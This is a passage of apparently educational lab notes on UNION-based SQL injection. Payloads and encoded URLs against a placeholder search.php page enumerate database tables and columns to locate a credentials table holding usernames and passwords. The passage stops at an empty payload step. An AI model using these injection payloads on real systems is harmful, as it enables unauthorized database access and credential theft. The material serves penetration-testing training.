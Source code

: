Note:

* Replace column numbers '2' and '3' with 'TABLE\_NAME' and 'TABLE\_SCHEMA' to get both outputs
    
* Add a condition `(where table_schema='dev')` to filter tables only from the "dev" database
    

Example URL:

```sql
http://SERVER_IP:PORT/search.php?port_code=cn'+UNION+select+1%2CTABLE_NAME%2CTABLE_SCHEMA%2C4+from+INFORMATION_SCHEMA.TABLES+where+table_schema%3D'dev'--+-
```

Output:

* Reveals four tables in the "dev" database: credentials, framework, pages, and posts
    
* The "credentials" table could contain sensitive information worth investigating
    

## **COLUMNS Table**

1. Purpose of the COLUMNS Table
    
    * Contains information about all columns present in the databases
        
    * Helps find column names to query a table
        
    * The `COLUMN_NAME`, `TABLE_NAME`, and `TABLE_SCHEMA` columns are useful
        
2. Retrieving Column Names for a Specific Table
    

Payload:

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

Example URL:

```sql
http://SERVER_IP:PORT/search.php?port_code=cn'+UNION+select+1%2CCOLUMN_NAME%2CTABLE_NAME%2CTABLE_SCHEMA+from+INFORMATION_SCHEMA.COLUMNS+where+table_name%3D'credentials'--+-
```

Output:

* Shows the "credentials" table has two columns: username and password
    

## **Extracting Data**

1. Forming the UNION Query
    
    * With the database, table, and column information, a SELECT query can be formed
        
    * Place the desired column names in place of the corresponding column numbers
        

Payload:
